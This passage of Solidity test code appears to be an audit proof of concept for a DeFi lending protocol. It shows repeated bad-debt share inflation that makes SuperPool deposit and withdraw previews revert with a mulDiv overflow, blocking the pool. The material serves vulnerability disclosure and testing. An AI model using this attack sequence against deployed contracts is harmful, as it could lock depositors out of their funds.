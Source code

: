 ```solidity
            superPoolOwner, // feeRecipient
            0, // fee
            10000e18, // superPoolCap
            1000, // initialDepositAmt
            "SuperPool", // name
            "SP" // symbol
        );
        vm.stopPrank();

        SuperPool superPool = SuperPool(superPoolAddress);

        // add pool
        vm.prank(superPoolOwner);
        superPool.addPool(poolId, 1000e18);

        address alice = makeAddr("Alice");
        address bob = makeAddr("Bob");

        (address payable position, Action memory newPos) = newPosition(bob, "Borrower");
        positionManager.process(position, newPos);

        for (uint i; i < 3; ++i) {
            inflatedSharesByBadDebt(alice, bob, position, poolId, superPool, poolAsset, collateralAsset);
        }

        inflatedSharesByBadDebt(alice, bob, position, poolId, superPool, poolAsset, collateralAsset);
        superPool.accrue();

        // Super Pool operations are blocked
        vm.expectRevert("Math: mulDiv overflow");
        superPool.previewDeposit(1e18);

        vm.expectRevert("Math: mulDiv overflow");
        superPool.previewWithdraw(1e18);
    }

    function inflatedSharesByBadDebt(
        address depositor, 
        address borrower,
        address position,
        uint256 poolId, 
        SuperPool superPool,
        MockERC20 poolAsset, 
        MockERC20 collateralAsset
    ) private {
        vm.startPrank(protocolOwner);
        riskEngine.setOracle(address(collateralAsset), address(new FixedPriceOracle(1e18)));
        vm.stopPrank();

        uint256 assetAmount = 1000e18;
        uint256 collateralAmount = assetAmount * 10 / 8;

        // Depositor deposits
        poolAsset.mint(depositor, assetAmount);

        vm.startPrank(depositor);
        poolAsset.approve(address(superPool), assetAmount);
        superPool.deposit(assetAmount, depositor);
        vm.stopPrank();

        // Borrower borrows from Underlying Pool
```